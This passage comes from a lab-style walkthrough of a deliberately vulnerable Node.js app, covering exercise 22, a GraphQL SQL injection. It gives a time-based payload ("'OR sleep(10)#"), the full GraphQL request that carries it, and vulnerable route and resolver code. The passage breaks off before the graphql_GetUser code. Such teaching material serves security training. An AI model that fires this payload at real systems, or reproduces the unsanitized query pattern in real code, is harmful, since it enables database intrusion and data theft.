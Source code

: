 ```js
async function graphql_AllUsers(){
    const q = "SELECT username, email from users;"
    await con.connect() 
    const userdata = await con.promise().query(q)
    console.log(userdata[0][0])
    return userdata[0]
}
```

## 22. GraphQL SQLi

Application is trusting data supplied from the client and using it in a SQL query without proper sanitization to display the user profile your goal is to perform SQL injection.

### Exploit

1. Go to `/graphql-user-profile`
2. Refresh the page while intercepting using burp suite, you will see a graphql request to `user` transfer it to the repeater.
3. Use the following payload in the username variable value to confirm SQLi.

```
'OR sleep(10)#
```

complete query

```
{"query":"query user($username: String!){ user(username: $username){ username email }}","variables":{"username":"adamjones'OR sleep(10)#"}}
```

### Vulnerable code:

**Route: /routes/app.js**

```js
router.use('/graphql', authenticateToken, graphqlHTTP({
    schema: schema,
    rootValue: vuln_controller.graphqlroot 
}))
```

**graphqlroot**

```js
const graphqlroot = {
    user: graphql_GetUser,   // user query handler
    listUsers: graphql_AllUsers,
    updateProfile: graphql_UpdateProfile,
    showProfile: graphql_ShowProfile 
}
```

**graphql_GetUser**
